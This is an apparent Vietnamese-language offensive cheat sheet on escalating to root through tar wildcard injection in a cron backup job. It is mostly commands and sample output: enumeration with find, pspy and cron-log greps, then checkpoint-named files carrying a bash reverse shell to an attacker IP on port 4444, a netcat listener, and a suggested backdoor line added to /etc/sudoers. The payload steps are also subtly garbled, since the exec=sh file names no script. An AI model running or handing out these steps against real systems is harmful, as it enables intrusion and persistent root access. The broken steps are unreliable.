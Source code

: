 # Wildcards & File Manipulation Exploits

## Điểm chính khai thác

* Khai thác cron job sử dụng lệnh TAR với wildcard (ví dụ: `tar -cf backup.tar *`) trong thư mục có thể ghi để kích hoạt cơ chế checkpoint, thực thi lệnh độc hại với đặc quyền cron job (thường là root)
* Tạo tệp `--checkpoint=1` và `--checkpoint-action=exec=sh` trong thư mục có thể ghi để lừa TAR thực thi lệnh như shell script khi xử lý wildcard
* Yêu cầu thư mục có thể ghi (tìm bằng `find / -writable -type d`) và cron job TAR sử dụng wildcard, kiểm tra bằng **pspy** hoặc `/etc/crontab`
* Lệnh độc hại có thể tạo shell ngược, sửa `/etc/passwd`, thêm khóa SSH, hoặc tạo tệp nhị phân SUID, tùy thuộc vào mục tiêu khai thác
* Phát hiện cron job TAR bằng **pspy**, `grep -r "tar.*\*" /etc/cron*`, hoặc nhật ký cron (`grep "CRON" /var/log/syslog`)

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Tìm thư mục có thể ghi để đặt tệp độc hại:

```
find / -writable -type d 2>/dev/null
```

Output mong đợi: Danh sách thư mục, ví dụ: `/tmp`

Kiểm tra cron job sử dụng TAR với wildcard:

```
pspy
```

Output mong đợi: Tiến trình root, ví dụ: `UID=0 PID=1234 | tar -cf /backup/backup.tar *`

Kiểm tra nhật ký cron để xác nhận:

```
grep "CRON" /var/log/syslog
```

Output mong đợi: Lệnh cron, ví dụ: `cron[1234]: (root) CMD (tar -cf /backup/backup.tar *)`

Kiểm tra tập lệnh cron chứa TAR với wildcard:

```
grep -r "tar.*\*" /etc/cron*
```

Output mong đợi: Tập lệnh, ví dụ: `/etc/cron.daily/backup: tar -cf /backup/backup.tar *`

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền ghi trên thư mục mục tiêu (ví dụ: /tmp):

```
ls -ld /tmp
```

Output mong đợi: Quyền thư mục, ví dụ: `drwxrwxrwt 10 root root 4096`

#### Phân tích ngữ cảnh thực thi

Xác minh hành vi TAR trong cron job:

```
pspy
```

Output mong đợi: Lệnh TAR với wildcard, ví dụ: `UID=0 PID=1234 | tar -cf /backup/backup.tar *`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo tệp kích hoạt cơ chế checkpoint:

```
echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/--checkpoint=1
```

Ghi chú: Thay `192.168.1.100` và `4444` bằng IP và cổng attacker. Tệp này kích hoạt chế độ checkpoint.

Tạo tệp thực thi lệnh độc hại:

```
echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/--checkpoint-action=exec=sh
```

Ghi chú: Lệnh trong tệp được thực thi bởi TAR với đặc quyền cron job.

#### Áp dụng khai thác

Chờ cron job chạy để kích hoạt lệnh độc hại:

```
sleep 300
```

Ghi chú: Điều chỉnh thời gian dựa trên lịch cron (kiểm tra `/etc/crontab` hoặc **pspy**).

Bắt shell ngược:

```
nc -lvnp 4444
```

Output mong đợi: Kết nối từ mục tiêu, ví dụ: `Connection from 192.168.1.101:45678`

#### Kích hoạt khai thác

Kiểm tra quyền root sau khi nhận shell:

```
id
```

Output mong đợi: Quyền root, ví dụ: `uid=0(root) gid=0(root)`

### Kiểm tra kết quả

Xác nhận quyền root:

```
whoami
```

Output mong đợi: `root`\
Xác nhận: Thử lệnh yêu cầu quyền cao, ví dụ: `echo 'hacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`.

## Ví dụ khai thác

### Khai thác TAR Checkpoint cho Shell Ngược

**Kịch bản mẫu**: Cron job root chạy `tar -cf /backup/backup.tar *` trong `/tmp` mỗi 5 phút, `/tmp` có thể ghi. Tạo tệp checkpoint để mở shell ngược.\
**Output**:

```
pspy
2025/05/16 14:00:01 CMD: UID=0 PID=1234 | tar -cf /backup/backup.tar *

grep "CRON" /var/log/syslog
cron[1234]: (root) CMD (tar -cf /backup/backup.tar *)

ls -ld /tmp
drwxrwxrwt 10 root root 4096

echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/--checkpoint=1
echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /tmp/--checkpoint-action=exec=sh

sleep 300
nc -lvnp 4444
Connection from 192.168.1.101:45678
whoami
root
```

### Khai thác TAR Checkpoint để Kiểm tra Đặc quyền

**Kịch bản mẫu**: Cron job root chạy `tar -cf /backup/backup.tar *` trong `/tmp`. Tạo tệp checkpoint để kiểm tra đặc quyền bằng lệnh `whoami`.\
**Output**:

```
pspy
2025/05/16 14:00:01 CMD: UID=0 PID=1234 | tar -cf /backup/backup.tar *

grep "CRON" /var/log/syslog
cron[1234]: (root) CMD (tar -cf /backup/backup.tar *)

ls -ld /tmp
drwxrwxrwt 10 root root 4096

echo "whoami > /tmp/rooted" > /tmp/--checkpoint=1
echo "whoami > /tmp/rooted" > /tmp/--checkpoint-action=exec=sh

sleep 300
cat /tmp/rooted
root
```
